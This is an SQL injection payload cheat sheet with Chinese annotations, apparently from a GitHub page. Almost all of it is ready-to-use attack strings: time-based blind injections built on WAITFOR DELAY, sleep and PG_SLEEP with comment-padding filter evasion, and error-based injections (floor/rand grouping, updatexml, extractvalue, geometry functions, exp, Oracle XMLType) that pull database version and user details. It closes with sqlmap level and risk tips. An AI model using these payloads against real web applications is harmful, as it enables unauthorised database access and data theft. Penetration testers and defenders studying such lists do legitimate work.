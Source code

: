 ~~~mysql
'/***/WAITFOR/***/DELAY/***/'0:0:10'--+
';WAITFOR/***/DELAY/***/'0:0:10'--+
');WAITFOR/***/DELAY/***/'0:0:10'--+

"/***/and/***/sleep(/***/if(/***/(select/***/length(database())/***/>0)/***/,/***/10,/***/0/***/)/***/)%23
"/***/and/***/If(ascii(substr(database(),1,1))=1,1,sleep(10))--+
"/***/WAITFOR/***/DELAY/***/'0:0:10'--+
";WAITFOR/***/DELAY/***/'0:0:10'--+
");WAITFOR/***/DELAY/***/'0:0:10'--+



Postgresql        PG_SLEEP(5)   OR GENERATE_SERIES(1,10000)




# 报错注入，爆数据库版本
以下payload都是数字型，如果是字符型，就在1后面添加单引号或者双引号

id=1+and (select 1 from(select count(*),concat(0x5e5e5e,version(),0x5e5e5e,floor(rand(0)*2))x from information_schema.character_sets group by x)a)--+
id=1 and (select 1 from (select count(*),concat(0x5e,version(),0x5e,floor(rand(0)*2))b from information_schema.tables group by b)a)
id=1 union select count(*),1,concat(0x5e5e5e,version(),0x5e5e5e,floor(rand(0)*2))x from information_schema.tables group by x --+                                使用联合的时候，要注意select的字段数量，该语句是3个，count，1，concat

id=1+and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+
id=1+and (extractvalue(1,concat(0x7e,(select user()),0x7e)))--+
id=1+and geometrycollection((select * from(select * from(select user())a)b))--+
id=1+and multipoint((select * from(select * from(select user())a)b))--+
id=1+and polygon((select * from(select * from(select user())a)b))--+
id=1+and multipolygon((select * from(select * from(select user())a)b))--+
id=1+and linestring((select * from(select * from(select user())a)b))--+
id=1+and multilinestring((select * from(select * from(select user())a)b))--+
id=1+and exp(~(select * from(select user())a))--+
PostgreSQL: /?param=1 and(1)=cast(version() as numeric)--+
MSSQL: /?param=1 and(1)=convert(int,@@version)--+
Sybase: /?param=1 and(1)=convert(int,@@version)--+
Oracle >=9.0: /?param=1 and(1)=(select upper(XMLType(chr(60)||chr(58)||chr(58)||(select --+
replace(banner,chr(32),chr(58)) from sys.v_$version where rownum=1)||chr(62))) from dual)--+


Oracle报错注入
' AND 1932=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(106)||CHR(122)||CHR(120)||CHR(113)||(SELECT (CASE WHEN (1932=1932) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(118)||CHR(118)||CHR(120)||CHR(113)||CHR(62))) FROM DUAL) AND 'mgBW'='mgBW
如果sqlmap跑不出，则加参数--level 5 --risk 3

risk
共有四个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。
~~~
